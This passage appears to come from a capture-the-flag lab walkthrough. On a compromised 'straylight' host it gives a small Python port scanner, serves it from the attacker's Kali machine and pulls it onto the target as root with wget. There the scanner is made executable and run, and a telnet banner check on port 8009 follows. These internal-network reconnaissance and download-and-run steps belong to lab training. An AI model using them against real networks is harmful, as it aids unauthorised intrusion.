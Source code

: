 I developed a python port scanner to discover open ports.

```python
#!/usr/bin/env python3 

import socket

host = "192.168.56.104"

def scan(port):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.settimeout(3)
        return True
    except:
        pass

for p in range(1, 65535):
    if scan(p):
        print("[+] Port {} open".format(p))
```

We start a web server with python on port 80.

```console
root@kali:~$ python3 -m http.server 80
```

On target machine we download the port scanner, give it execution permissions and execute it.

```console
root@straylight:/root# wget 192.168.179.1/pscan.py

root@straylight:/root# chmod +x pscan.py
chmod +x pscan.py
root@straylight:/root# ./pscan.py
./pscan.py
[+] Port 8009 open
[+] Port 8080 open
[+] Port 34483 open
root@straylight:/root#
```

### Service Enumeration

We check the banner on port 8009 with telnet but the service was not detected.

```console
root@straylight:/root# telnet 192.168.56.104 8009
telnet 192.168.56.104 8009
Trying 192.168.56.104...
Connected to 192.168.56.104.
Escape character is '^]'.

Connection closed by foreign host.
root@straylight:/root#
```
